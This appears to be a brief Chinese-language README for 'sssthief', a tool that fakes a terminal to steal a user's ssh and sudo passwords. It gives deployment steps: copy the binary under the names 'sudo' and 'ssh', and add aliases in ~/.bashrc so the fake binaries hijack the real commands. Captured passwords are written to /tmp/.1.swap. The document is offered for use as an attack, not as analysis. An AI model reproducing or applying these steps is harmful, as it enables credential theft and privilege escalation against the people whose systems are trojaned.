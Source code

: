 # sssthief 通过模拟一个终端劫持用户的输入输出以达到窃取密码的目的，目前仅支持中文与英文系统环境
窃取当前用户的ssh，sudo密码

cp test_linux_amd64 sudo

cp test_linux_amd64 ssh

~/.bashrc

alias sudo="程序路径/sudo"

alias ssh="程序路径/ssh"


密码保存到/tmp/.1.swap
ps:su窃取功能未完成
